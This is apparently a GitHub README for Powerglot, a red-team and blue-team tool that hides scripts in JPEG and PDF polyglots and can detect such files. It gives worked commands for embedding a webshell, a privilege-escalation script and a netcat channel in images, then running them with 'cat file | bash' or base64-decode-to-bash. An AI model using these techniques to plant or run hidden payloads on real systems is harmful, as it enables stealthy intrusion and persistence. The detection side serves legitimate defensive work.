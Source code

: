 # Powerglot

Powerglot encodes several kind of scripts using polyglots, for example, offensive powershell scripts. It is not needed a loader to run the payload.

In red-team exercises or offensive tasks, masking of payloads is usually done by using steganography, especially to avoid network level protections, being one of the most common payloads scripts developed in powershell. Recent malware and APTs make use of some of these capabilities: APT32, APT37, Ursnif, Powload, LightNeuron/Turla, Platinum APT, Waterbug/Turla, Lokibot, The dukes (operation Ghost), Titanium, etc.

Powerglot is a multifunctional and multi-platform attack and defense tool based on polyglots. Powerglot allows to mask a script (powershell, shellscripting, php, ...) mainly in a digital image, although other file formats are in progress. Unlike the usual offensive tools or malware, Powerglot does not need any loader to execute the "information hidden", minimizing the noise on the target system.

PowerGlot has a clear utility in offensive tasks but it is also defined as a discovery and blue team tool. To our knowledge, it is the first general and complete open-source tool that allows to search for the presence of masked information with polyglots, information that could be useful to achieve persistence in a system or to hide malware (stego-malware, privilege escalation, lateral movement, reverse shell, etc.)

Features:
- Encode powershell/shell script/php/.. in a polyglot image. It is not necessary a loader to recover/execute the hidden information (payload). PowerGlot works with several formats. Mainly, JPEG and PDF format. Other formats are in progress.

- Powerglot is a complete open-source tool to detect (malicious) polyglots, specially the result of some public tools as Truepolyglot or stegoSploit. We works in several formats: JPEG, PNG, GIF, BMP, ZIP, PDF, MP3, etc.

# Installation
```
# git clone https://github.com/mindcrypt/powerglot
# python3 powerglot
```
# Usage & Parameters

Some examples to hide payloads using polyglots with Powerglot
```
# Example 1 - Hiding a powershell/php/shell script in a JPEG image

# python3 powerglot.py -o payload.ps1 cat.jpg cat-hidden1.jpg
# python3 powerglot.py -o webshell.php cat.jpg cat-hidden2.jpg
# python3 powerglot.py -o shell.sh cat.jpg cat-hidden3.jpg
```
```
# Example 2 - Hiding a shell script (linenum.sh) for privilege escalation "hidden" in a JPEG image

# python3 powerglot.py -o linenum.sh cat.jpg cat-linenum.jpg
# file cat-linenum.jpg (It is a valid JPEG file)
# feh cat-lineum.jpg (The image is properly showed in an image viewer)

# We can execute the script in several ways:

a) cat cat-linenum | bash
b) chmod +x cat-linenum.jpeg; ./cat-linenum.jpeg

```
```
# Example 3 - Hiding a cover-channel wiht netcat in a JPEG image

# Attacker
# echo "nc 127.0.0.1 4444" > netcat.sh
# python3 powerglot.py -o netcat.sh cat.jpeg cat-netcat.jpeg
# nc -nvlp 4444

#Victim
# chmod +x cat-netcat.jpg | ./cat-netcat.jpg

```
```
# Example 4 - Polyglot in PDF (Ej-linenum.sh)
# Create b64.sh with your favourite payload
base64 Linenum.sh -w 0 > b64.sh
# Edit b64.sh
echo "code in b64.sh" | base64 -d | bash;

# python3 powerglot -o b64.sh sample.pdf test.pdf
# file test.pdf
# xpdf test.pdf

# Execute payload
# cat test.pdf | bash or chmod +x test.pdf; ./test.pdf
```
```
# Example 5 - Powershell in JPEG (polyglot)
# python3 powerglot.py -o script.ps1 cat.jpeg cat-ps.jpeg
# file cat-ps.jpeg
# feh cat-ps.jpeg

# Execute payload (example)
# cat cat-ps.jpeg | pwsh

PS /home/alfonso/PowerGlot/POWERSHELL> get-process;<#hola <# mundo#>

 NPM(K)    PM(M)      WS(M)     CPU(s)      Id  SI ProcessName
 ------    -----      -----     ------      --  -- -----------
      0     0,00       2,70       0,00     830 829 (sd-pam)
      0     0,00       0,00       0,00      75   0 acpi_thermal_pm
      0     0,00       4,80       0,00    1217 854 agent
      0     0,00       1,70       0,00     748 748 agetty
      0     0,00      40,77       1,01    1198 854 applet.py
      0     0,00       6,29       0,00     938 938 at-spi-bus-launcher
      0     0,00       6,61       5,64     953 938 at-spi2-registryd
      0     0,00       0,00       0,00     131   0 ata_sff
      0     0,00       1,77       0,00    8906 …78 atom
      0     0,00     218,81     585,95    8908 …78 atom
      0     0,00     236,18     176,24    8947 …78 atom
      0     0,00     142,14       2,51    9009 …78 atom
      0     0,00      81,54       3,32    8932 …78 atom --type=gpu-process --enable-features=SharedArrayBuffer -…
      0     0,00      39,44       0,01    8910 …78 atom --type=zygote --no-sandbox
      0     0,00       5,62       0,11    1370 …70 bash
      0     0,00       5,36       0,66    5278 …78 bash
      0     0,00       6,34       1,48    6778 …78 bash
      0     0,00       0,00       0,00      68   0 blkcg_punt_bio
      0     0,00      46,73       2,20    1199 854 blueman-applet
      0     0,00      50,25       1,64    1301 854 blueman-tray
```
Some examples to detect polyglots in our filesystem
```
#python3 powerglot.py -d ./
--= [Detecting polyglots] --=
..............................................................
[Suspicious file]-[ ./cat-end-extra2.jpg ]..
[Suspicious file]-[ ./cat-end-extra3.jpg ][Polyglot Stegosploit][EOF Signature: */ -->]
.................................................................................
[Suspicious file]-[ ./cat-end-extra1.jpg ]..
```

# Future work. Doing
- We are working to support different file formats for encoding information in polyglots. Currently, we support several techniques in JPEG and PDF.
- We are working to incorporate rules for the detection of polyglots in different formats. Currently, the presence of StegoSploit in JPEG files is detected (added */ --> after FFD9)

# Author & license

This project has been developed by Dr. Alfonso Muñoz and Abraham Pasamar. The code is released under the GNU General Public License v3.


